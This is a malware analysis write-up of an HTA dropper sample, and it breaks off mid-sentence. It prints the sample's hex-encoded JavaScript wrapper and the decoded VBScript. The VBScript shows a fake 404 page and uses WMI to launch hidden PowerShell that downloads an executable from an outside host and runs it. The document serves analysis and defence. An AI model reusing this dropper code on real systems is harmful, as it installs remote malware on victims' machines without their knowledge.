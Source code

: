 # Dropper.hta

## Identification:

**FileName:** Dropper.hta

**SHA256:** d31cb07b7dfd2c50995321a86f8b173c886452c5ec2f67dff1173c32077d83a2

**FileSize:** 4096 (bytes)

<br>

## Analysis:

The code of the hta sample file can be seen below:

    <html>
    <head>
    <title></title>
    <body>
    <script language="JavaScript" type="text/javascript">
    document.write(unescape('%3c%68%74%6d%6c%3e%0a%3c%68%65%61%64%3e%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%3a%2f%2f%74%61%69%6c%6f%66%61%77%68%61%6c%65%2e%6c%6f%63%61%6c%2f%54%65%6c%6c%41%6e%64%53%65%6e%74%46%6f%72%2e%65%78%65%27%2c%27%25%74%65%6d%70%25%5c%6a%4c%6f%61%64%65%72%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%74%65%6d%70%25%5c%6a%4c%6f%61%64%65%72%2e%65%78%65%27%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0a%65%6e%64%20%73%75%62%0a%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%68%65%61%64%3e%0a%3c%2f%68%74%6d%6c%3e'));
    </script>
    </body>
    </html>

In the above code, some hex encoded characters can be seen inside the document.write() under unescape(). The unescape will compute new string by replacing hexadecimal escape sequence with characters they represent. Then with document.write(), it will write directly to open HTML document stream.

The above encoded hex characters were decoded to get the code below.


    <html>
    <head>
    <title> >_ </title>
    <center><h1>404 Not Found</h1></center>
    <script language="VBScript">
    Sub window_onload
    	const impersonation = 3
    	Const HIDDEN_WINDOW = 12
    	Set Locator = CreateObject("WbemScripting.SWbemLocator")
    	Set Service = Locator.ConnectServer()
    	Service.Security_.ImpersonationLevel=impersonation
    	Set objStartup = Service.Get("Win32_ProcessStartup")
    	Set objConfig = objStartup.SpawnInstance_
    	Set Process = Service.Get("Win32_Process")
    	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('http://tailofawhale.local/TellAndSentFor.exe','%temp%\jLoader.exe');Start-Process '%temp%\jLoader.exe'", null, objConfig, intProcessID)
    	window.close()
    end sub
    </script>
    </head>
    </html>

Here, in the above code, there is VBScript